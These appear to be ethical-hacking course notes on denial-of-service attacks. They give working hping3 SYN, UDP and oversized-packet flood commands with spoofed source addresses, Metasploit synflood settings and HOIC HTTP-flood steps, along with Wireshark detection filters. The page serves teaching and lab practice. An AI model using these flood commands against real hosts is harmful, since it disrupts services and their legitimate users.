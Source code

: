 # 10 - DoS

#### <mark style="color:purple;">**Module 10 - Denial-of-Service**</mark>

<details>

<summary>DOS</summary>

A **Denial of Service** (DoS) attack is a malicious attempt to disrupt the normal functioning of a network, service, website, or computer system by overwhelming it with an excessive amount of traffic, requests, or other forms of malicious activity. The primary goal of a DoS attack is to make the target system or network unavailable to its intended users.

Here are some key characteristics of a Denial of Service attack:

1. **Overload**: Attackers flood the target with a massive volume of traffic, which can be in the form of network requests, data packets, or other resource-consuming actions. The target system becomes overwhelmed and is unable to handle the volume of incoming requests.
2. **Resource Depletion**: DoS attacks may aim to exhaust system resources such as bandwidth, processing power, memory, or network connections. This can result in the target system slowing down or becoming completely unavailable.
3. **Temporary Disruption**: DoS attacks typically result in a temporary disruption of services. Once the attack ceases, the affected system can often recover and resume normal operation.
4. **Distributed DoS (DDoS)**: In more advanced attacks, multiple compromised computers or devices are used to launch a Distributed Denial of Service (DDoS) attack. This makes it much more challenging to mitigate the attack because it comes from multiple sources simultaneously.
5. **Motivation**: DoS attacks can be carried out for various reasons, including financial gain, ideological reasons, revenge, or simply for the thrill of causing disruption.
6. **Legality**: DoS attacks are illegal in many jurisdictions and can result in criminal charges if the attackers are identified and apprehended.

</details>

<details>

<summary>SYN Flooding</summary>

**SYN flooding** is a type of cyberattack that targets a server by overwhelming it with a flood of fake or incomplete connection requests (SYN packets). These requests are part of the 3-way handshake process used to establish a connection between a client and a server. In a SYN flood attack, the attacker sends a large number of SYN packets without completing the handshake, tying up the server's resources and preventing it from servicing legitimate connections.

This can lead to a denial of service (DoS) or distributed denial of service (DDoS) attack, causing the server to become unresponsive. Mitigation strategies include rate limiting, SYN cookies, and deploying intrusion detection and prevention systems.

</details>

## **SYN Flooding**

### **Perform a SYN Flooding on a Target Host using hping3**

**Target:**

* Wireshark-\&gt;Ethernet

#### **Attacker**

* **hping3 -S \<Target IP> -a \<Spoofable IP> -p \<Port to flood> -flood**
  * **-S: Set the SYN flag**
  * **-a: Spoof the IP address**
  * **-p: Specify the destination port, e.g 22**
  * **--flood: Send a huge number of packets**

#### **Target**

* Check Wireshark

#### **Attacker (Perform PoD)**

* **hping3 -d 65538 -S -p 21 –flood \<Target IP>**
  * **-d: Specify data size**
  * **-S: Set the SYN flag**

#### **Attacker (Perform UDP application layer flood attack)**

* nmap -p 139 10.10.10.19 (check service)
* **hping3 -2 -p 139 –flood \<Target IP>**
  * **-2: Specify UDP mode**

### **SYN Flooding using Metasploit**

```bash
nmap -p 21 10.10.10.10 #check open ports or specific port

msfconsole -q #start msfconsole
use auxiliary/dos/tcp/synflood #SYN Flooding module
set RHOST <Target IP>
set RPORT 21
set SHOST <Spoofed IP Address> #Our fake IP 
set TIMEOUT 20000 and press Enter

#open Wireshark and View Flood attack on victim via Wireshark, use filter:
tcp.port=21
```

## HTTP Flooding Attack



<details>

<summary><strong>HTTP flood attack</strong></summary>

**HTTP flood attack**, is a type of cyberattack aimed at overwhelming a web server by sending a massive volume of HTTP requests. These requests often mimic legitimate user interactions with a website, such as GET or POST requests for web pages or resources. The intent is to consume the server's resources, exhaust its processing capacity, and cause it to become slow or unresponsive, resulting in a denial of service (DoS) situation.

Attackers may employ botnets or distributed networks of compromised devices to intensify the attack. Defenses against HTTP flooding include rate limiting, traffic analysis, and content delivery networks (CDNs) to absorb excess traffic and protect the target server.

</details>

### HTTP Flooding Attack using HOIC (High Orbit Ion Cannon)

* Open HOIC.
* Set threads = 20
* Click + to add target
* Enter Target http://\<Target IP> -> Power = High -> Booster = GenericBoost.hoic
* Click **FIRE TEH LAZER!** to launch attack

## Detecting DoS Attack traffic <a href="#user-content-detecting-dos-attack-traffic" id="user-content-detecting-dos-attack-traffic"></a>

KFSensor Free Trial: [http://www.keyfocus.net/kfsensor/](http://www.keyfocus.net/kfsensor/)\
Wireshark: [https://www.wireshark.org/](https://www.wireshark.org/)

To find DOS (SYN and ACK) :&#x20;

`tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0`

To find passwords :&#x20;

`http.request.method == POST`

To find DOS -> Look for Red and Black packets with around 1-2 simple packets in between and then pick any packet and check the Source and Destination IP with port if need.

To find Wireshark DOS attack:

* statistic -> IPv4 statistic -> source and destination address&#x20;

Or

* View Flood attack on victim via Wireshark | use filter tcp.port=21

#### Another method

Find the dos attacker ip using Wireshark

Statistic -> conversion

identified ip , which has flooding server with SYN request.

Or&#x20;

get the statistics of ipv4 -> we can see that Packets B -> A are null, because the're not reply pack.

{% embed url="https://github.com/Samsar4/Ethical-Hacking-Labs/blob/master/9-Denial-of-Service/3-Detecting-DoS-Traffic.md" %}

{% content-ref url="../tools/wireshark-or-tcpdump.md" %}
[wireshark-or-tcpdump.md](../tools/wireshark-or-tcpdump.md)
{% endcontent-ref %}

#### **Other UDP-based applications and their ports**

* CharGen UDP Port 19
* SNMPv2 UDP Port 161
* QOTD UDP Port 17
* RPC UDP Port 135
* SSDP UDP Port 1900
* CLDAP UDP Port 389
* TFTP UDP Port 69
* NetBIOS UDP Port 137,138,139
* NTP UDP Port 123
* Quake Network Protocol UDP Port 26000
* VoIP UDP Port 5060
